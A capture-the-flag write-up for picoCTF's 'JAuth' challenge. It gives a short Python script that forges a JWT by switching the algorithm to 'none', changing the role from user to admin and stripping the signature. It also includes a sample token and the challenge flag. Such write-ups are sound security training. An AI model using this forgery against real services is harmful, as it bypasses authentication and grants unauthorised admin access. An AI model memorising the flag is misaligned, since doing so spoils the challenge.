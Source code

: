 <h1>JAuth</h1>
<h3>Description</h3>
<pre>
Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:
Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
VerticalScope (internet media company) - outdated version of vBulletin forum software used
Can you identify the components and exploit the vulnerable one?
The website is running <a href='http://saturn.picoctf.net:50205/'>here</a>. Can you become an admin?
You can login as test with the password Test123! to get started.
</pre>
<h3>Solution</h3>
<p>Ganti header alg:none dan payload role:admin di jwt, lalu hapus signature. hasil jadinya</p>
<pre>{header}.{payload}.</pre>

```python3
import base64

def decodeJWT(token):
    parts = token.split('.')
    header =parts[0]
    payload = parts[1]
    
    header_ = base64.urlsafe_b64decode(header+"=")
    payload_ = base64.urlsafe_b64decode(payload+"=")
    
    change_header = base64.urlsafe_b64encode(header_.replace(b'HS256',b'none')).decode('ascii').rstrip('=')
    change_payload = base64.urlsafe_b64encode(payload_.replace(b'user',b'admin')).decode('ascii').rstrip('=')

    new_jwt = change_header+'.'+change_payload+'.'
    return new_jwt

token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzI5MzIxODA2NDAzLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjkuMC42NjY4LjcxIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoidXNlciIsImlhdCI6MTcyOTMyMTgwNn0.0xrLbVNmMKfO9sHXXMas5rTvbzQqcxEmilCjgMvhooQ.'
print(decodeJWT(token))
```

<h3>Flag</h3>
<pre>
picoCTF{succ3ss_@u7h3nt1c@710n_72bf8bd5}
</pre>
